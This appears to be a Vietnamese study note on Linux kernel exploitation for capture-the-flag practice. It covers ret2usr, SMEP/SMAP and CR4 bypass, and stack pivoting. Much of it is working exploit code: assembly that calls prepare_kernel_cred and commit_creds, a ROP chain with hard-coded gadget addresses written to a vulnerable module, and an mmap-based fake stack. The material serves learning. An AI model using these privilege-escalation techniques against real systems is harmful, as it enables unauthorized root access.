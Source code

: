 # Tìm hiểu về kernel

## Nguồn tham khảo

https://hackmd.io/@ChinoKafuu/kernel

## Một số thông tin

- Thông thường khi tôi chơi ctf, quá trình debug tôi thấy rằng vùng địa chỉ từ 0x5.. đến 0x7fff mà tựa hỏi sau 0x7fff... là gì? Tại sao không đến 0xffff. Thì trong quá trình tìm hiểu kernel, tôi nhận thấy rằng, máy tính chia thành 2 phần là `user-land` và `kernel-land`. Dưới đây là vùng nhớ của 32/64 bit
  ![Alt text](bin/image.png)
- Khi chúng ta exploit các file bin, các tiến trình đang hoạt động ở user-land. Khi exploit kernel, ta có thể can thiệp cả user-land và kernel-land.
- Các thiết bị như bàn phím, chuột thường được xử lý ở user-land. Để tương tác với kernel-land, các process sẽ yêu cầu sự giúp đỡ từ kernel-land bằng `syscall`
- Có một số lớp bảo vệ nhưng chúng ta sẽ tìm hiểu sau.

### cách định nghĩa 1 fops

- Việc exploit sẽ là tương tác với 1 module kernel (file .ko - là một phần mở rộng của kernel, để có thể thêm chức năng mà không phải build lại kernel). Và như ở thông tin trên, ta chỉ có thể tương tác với kernel thông qua syscall, vậy làm sao để khi ta gọi 1 syscall read thì nó sẽ thực thi read trong kernel hay read trong module? Sau một hồi hỏi cung chatGPT thì tôi có 1 số thông tin như sau. Đầu tiên để tương tác với 1 module, ta cần mở file(hàm open(<tên file>, ...)). Thứ 2, trong module cần có một cấu trúc `file_operations` (fops) chứa các con trỏ trỏ đến các hàm xử lý trong module. Ví dụ

```
static struct file_operations fops = {
    .open = my_module_open,
    .read = my_module_read,
    .write = my_module_write,
    .release = my_module_release,
    // ...
};
```

```c
g_fd = open("/dev/hackme", O_RDWR);
read(g_fd, buf, sizeof(buf))
// thực thi hàm read trong module hackme
```

# setup debug

https://github.com/ysf/gef-bata

# Một số kĩ thuật khai thác kernel

- ret2user
  - status switch
- modify cr4 register
  - bypass smep
  - bypass smap
- kpti
  - fix cr3 register
  - swapgs_restore_regs_and_return_to_usermode()
- kernel information leak
  - useful kernel structure for UAF
- modprobe_path
- userfaultfd
  - race condition
- setxattr
  - setxattr + userfaultfd
- msg_msg
- signal handler

## ret2usr

```c
void save_state()
{
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;");
    puts("[*] Saved state");
}

void escalate_privs(void)
{
    __asm__(
        ".intel_syntax noprefix;"
        "movabs rax, 0xffffffff814c67f0;" // prepare_kernel_cred
        "xor rdi, rdi;"
        "call rax; mov rdi, rax;"
        "movabs rax, 0xffffffff814c6410;" // commit_creds
        "call rax;"
        "swapgs;"
        "mov r15, user_ss;"
        "push r15;"
        "mov r15, user_sp;"
        "push r15;"
        "mov r15, user_rflags;"
        "push r15;"
        "mov r15, user_cs;"
        "push r15;"
        "mov r15, user_rip;"
        "push r15;"
        "iretq;"
        ".att_syntax;");
}

```

## modify cr4 register
- Reference: @ChinoKafuu, https://ctf-wiki.mahaloz.re/pwn/linux/kernel/bypass_smep/, https://lkmidas.github.io/posts/20210128-linux-kernel-pwn-part-2/
### smep và smap
- `smep` ngăn chặn việc thực thi mã trong user mode từ kernel mode
- nó được bật bằng cách set bit thứ 20 của thanh ghi CR4. 
- Enable thêm +smep vào ở -cpu và disable thêm nosmap vào -append
- `smap` ngăn chặn việc truy cập dữ liệu trong kernel mode từ user mode
- nó được bật bằng cách set bit thứ 21 của thanh ghi CR4.
![Alt text](bin/image-1.png) 
### bypass
#### overwrite CR4
- Ta sẽ cố gắng set thanh ghi `rc4 = 0x6f0` bằng native_write_cr4(value)
- Đối với các kernel cũ thì ta chỉ cần `pop rdi`. Tuy nhiên các phiên bản kernel mới đã có chức năng `pin` các bit của `rc4` khiến chúng không thể bị overwrite
```c
void native_write_cr4(unsigned long val)
{
	unsigned long bits_changed = 0;

set_register:
	asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

	if (static_branch_likely(&cr_pinning)) {
		if (unlikely((val & cr4_pinned_mask) != cr4_pinned_bits)) { // check
			bits_changed = (val & cr4_pinned_mask) ^ cr4_pinned_bits;
			val = (val & ~cr4_pinned_mask) | cr4_pinned_bits;
			goto set_register;
		}
		/* Warn after we've corrected the changed bits. */
		WARN_ONCE(bits_changed, "pinned CR4 bits changed: 0x%lx!?\n",
			  bits_changed);
	}
}
```
# ROP chain
- Cách thứ 2, ta có thể sử dụng các gadget
```
ROP into prepare_kernel_cred(0).
ROP into commit_creds(), with the return value from step 1 as parameter.
ROP into swapgs ; ret.
ROP into iretq with the stack setup as RIP|CS|RFLAGS|SP|SS.
```

```c
unsigned long user_rip = (unsigned long)get_shell;

unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long pop_rdx_ret = 0xffffffff81007616; // pop rdx ; ret
unsigned long cmp_rdx_jne_pop2_ret = 0xffffffff81964cc4; // cmp rdx, 8 ; jne 0xffffffff81964cbb ; pop rbx ; pop rbp ; ret
unsigned long mov_rdi_rax_jne_pop2_ret = 0xffffffff8166fea3; // mov rdi, rax ; jne 0xffffffff8166fe7a ; pop rbx ; pop rbp ; ret
unsigned long commit_creds = 0xffffffff814c6410;
unsigned long prepare_kernel_cred = 0xffffffff814c67f0;
unsigned long swapgs_pop1_ret = 0xffffffff8100a55f; // swapgs ; pop rbp ; ret
unsigned long iretq = 0xffffffff8100c0d9;

void overflow(void){
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0; // rbx
    payload[off++] = 0x0; // r12
    payload[off++] = 0x0; // rbp
    payload[off++] = pop_rdi_ret; // return address
    payload[off++] = 0x0; // rdi <- 0
    payload[off++] = prepare_kernel_cred; // prepare_kernel_cred(0)
    payload[off++] = pop_rdx_ret;
    payload[off++] = 0x8; // rdx <- 8
    payload[off++] = cmp_rdx_jne_pop2_ret; // make sure JNE doesn't branch
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = mov_rdi_rax_jne_pop2_ret; // rdi <- rax
    payload[off++] = 0x0; // dummy rbx
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = commit_creds; // commit_creds(prepare_kernel_cred(0))
    payload[off++] = swapgs_pop1_ret; // swapgs
    payload[off++] = 0x0; // dummy rbp
    payload[off++] = iretq; // iretq frame
    payload[off++] = user_rip;
    payload[off++] = user_cs;
    payload[off++] = user_rflags;
    payload[off++] = user_sp;
    payload[off++] = user_ss;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should never be reached");
}

```

#### stack pivot
- Trường hợp smap tắt 
- Một ví dụ khi ta muốn stack pivot thành 0x5b000000
```c
void build_fake_stack(void){
    fake_stack = mmap((void *)0x5b000000 - 0x1000, 0x2000, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_ANONYMOUS|MAP_PRIVATE|MAP_FIXED, -1, 0);
    unsigned off = 0x1000 / 8;
    fake_stack[0] = 0xdead; // put something in the first page to prevent fault
    fake_stack[off++] = 0x0; // dummy r12
    fake_stack[off++] = 0x0; // dummy rbp
    fake_stack[off++] = pop_rdi_ret;
    ... // the rest of the chain is the same as the last payload
}
```